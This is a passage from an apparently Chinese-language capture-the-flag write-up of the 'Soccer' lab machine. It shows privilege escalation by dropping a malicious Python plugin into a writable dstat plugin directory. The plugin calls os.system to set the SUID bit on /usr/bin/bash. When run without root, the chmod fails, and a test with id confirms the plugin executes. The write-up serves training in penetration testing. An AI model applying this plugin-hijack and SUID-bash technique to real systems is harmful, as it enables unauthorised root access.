 ```bash
player@soccer:~$ find / -type d -name dstat -exec ls -ld {} \; 2>/dev/null
drwxr-xr-x 2 root root 4096 Nov 17 09:09 /usr/share/doc/dstat
drwxr-xr-x 3 root root 4096 Nov 17 09:09 /usr/share/dstat
drwxrwx--- 2 root player 4096 Jan  8 09:15 /usr/local/share/dstat
```

`/usr/local/share/dstat` 有写入权限，那么去这个目录进行后续exploit：  
```bash
player@soccer:~$ cd /usr/local/share/dstat

player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('chmod +s /usr/bin/bash')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ cat dstat_exploit.py 
import os
os.system('chmod +s /usr/bin/bash')
player@soccer:/usr/local/share/dstat$ dstat --list
internal:
        aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,
        mem,mem-adv,net,page,page24,proc,raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,
        zones
/usr/share/dstat:
        battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,
        disk-util,disk-wait,dstat,dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,
        helloworld,ib,innodb-buffer,innodb-io,innodb-ops,jvm-full,jvm-vm,lustre,md-status,memcache-hits,
        mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,mongodb-stats,mysql-io,mysql-keys,
        mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,
        net-packets,nfs3,nfs3-ops,nfsd3,nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,proc-count,
        qmail,redis,rpc,rpcd,sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,
        snooze,squid,test,thermal,top-bio,top-bio-adv,top-childwait,top-cpu,top-cpu-adv,top-cputime,
        top-cputime-avg,top-int,top-io,top-io-adv,top-latency,top-latency-avg,top-mem,top-oom,utmp,
        vm-cpu,vm-mem,vm-mem-adv,vmk-hba,vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,
        zfs-zil
/usr/local/share/dstat:
        exploit

player@soccer:/usr/local/share/dstat$ /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
chmod: changing permissions of '/usr/bin/bash': Operation not permitted
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

exploit报错。正常，想想我们也没有root权限去设置bash的SUID。确认一下想法：  
```bash
player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('id')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
uid=1001(player) gid=1001(player) groups=1001(player)
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

